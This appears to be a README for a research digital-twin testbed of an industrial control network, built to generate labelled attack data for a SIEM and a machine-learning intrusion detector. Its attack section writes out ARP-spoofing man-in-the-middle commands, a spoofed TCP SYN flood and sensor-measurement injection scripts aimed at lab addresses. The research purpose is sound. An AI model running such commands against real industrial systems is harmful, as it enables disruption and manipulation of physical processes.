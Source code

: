 # DigitalTwin-SIEM-integration

**Installation**

Installation steps for the whole implementation with Docker Compose is as follows: 
(Please refer https://github.com/FrauThes/DigitalTwin-SIEM-integration/blob/master/README.md for the implementation without the IDS docker container)

1. After installing Docker Compose, clone the repository.
2. Add root user to the local access control list of xhost on "Docker host", not inside container.
    ```
    sudo xhost +si:localuser:root  
    ```
4. Run the init script:
    ```bash
    cd /deployments/docker && sudo sh init.sh
    ```
3. Enter the IP address or Hostname of the server when requested. For example:
    ```
    Enter the Hostname or IP Address where your elasticsearch will be deployed:10.0.2.15
    ```
4. The script is trying to import the Dsiem dashboard to Kibana. This may take a few minutes. Until Kibana is up and running, error messages are shown. This is normal. Example error message:
    ```
    curl: (22) The requested URL returned error: 503 Service Unavailable
    cannot connect to localhost:5601, will retry in 5 sec ..
    ```
5.  Once the project is ready, access kibana and ids in browser.
    Kibana port 5601 , ids (url comes on console) port 8888
    
The Project is up and running. If you want to start it a second time you simply have to navigate to deployments/docker and run `docker-compose up`.

**NOTE**: All the required packages, softwares and libraries are included with Docker. No need of installing these separately.

**Data collection**

Once the docker compose is up, 8 xterm consoles will pop up on the terminal (2 for s1, 2 for plc1, 1 for plc2, 1 for plc3, 1 for hmi and 1 for attacker node)
To trigger data collection, run the following command on hmi terminal
```
python trigger.py <x>
```
Here x corresponds to the minutes for which data (process measuremnets) needs to be collected. For examples, if data needs to be collected for 2 hours, enter x as 120.

Collected dataset is stored as 'data.csv' in logs folder.

Automated labelling of the generated dataset done in two steps: 1) Run label.py script to label dataset based on threshold conditions (For false data injection and DoS)
2) Run label1.py after step 1 by passing 3 arguments (start_time, end_time and attack type). Results stored as 'labelled.csv' in logs folder.

**Executing attacks**

Note: Launch all attacks from attacker node terminal.

IP to nodes mapping: PLC1 <--> 10.0.0.1, PLC2 <--> 10.0.0.2, PLC3 <--> 10.0.0.3, HMI <--> 10.0.0.4, ATTACKER <--> 10.0.0.5

**Attack scenario 1** (Command injection): Run the following script to launch this attack for x minutes.

    python attack_fdi.py <x>

**Attack scenario 2, 3, 4** (Network DoS MitM/DoS): Run the following commands for attacks 2, 3, 4 respectively.

    ettercap -T -i attacker-eth0 -M ARP /10.0.0.1// /10.0.0.2//
    ettercap -T -i attacker-eth0 -M ARP /10.0.0.1// /10.0.0.3//
    ettercap -T -i attacker-eth0 -M ARP /10.0.0.1// 

**Attack scenario 5** (Network DoS TCP SYN flooding)

    hping3 -S -a 10.0.0.4 --flood -V -p 44818 10.0.0.1

**Note**: Attacks 6 till 23 are MitM attacks. Attacker node is placed b/w two nodes and ip forwarding enabled using the following commands.

    ettercap -T -i attacker-eth0 -M ARP /10.0.0.1// &
    echo 1 > /proc/sys/net/ipv4/ip_forward

**Attack scenario 6,7,8** (Naive Measurement Injection): Run the following commands for attacks 6, 7, 8 respectively.

    python attack_sensor_constant.py PLC2
    python attack_sensor_constant.py PLC3
    python attack_sensor_constant.py BOTH

**Attack scenario 9,10,11 (Calculated Measurement Injection +ve scaling) and Attack scenario 12,13,14 (Calculated Measurement Injection negative scaling)

    python attack_sensor_scaling.py PLC2 +
    python attack_sensor_scaling.py PLC3 +
    python attack_sensor_scaling.py BOTH +
    python attack_sensor_scaling.py PLC2 -
    python attack_sensor_scaling.py PLC3 -
    python attack_sensor_scaling.py BOTH -

**Attack scenario 15,16,17 (Naive Measurement Injection)

    python attack_sensor_random_withinlimits.py PLC2
    python attack_sensor_random_withinlimits.py PLC3
    python attack_sensor_random_withinlimits.py BOTH

**Attack scenario 18,19,20 (Calculated Measurement Injetcion positive scaling) and Attack scenario 21,22,23 (Calculated Measurement Injection negative scaling)

    python attack_sensor_randomp.py PLC2
    python attack_sensor_randomp.py PLC3
    python attack_sensor_randomp.py BOTH
    python attack_sensor_randomn.py PLC2
    python attack_sensor_randomn.py PLC3
    python attack_sensor_randomn.py BOTH

**Running ML-based IDS**

Run ML_based IDS by running the Jupyter notebook ML_IDS.ipynb launched using ids url. Results of IDS can be seen in 'IDS' dashboard in Kibana.

## Reference
[ARES'20](https://doi.org/10.1145/3407023.3407039)
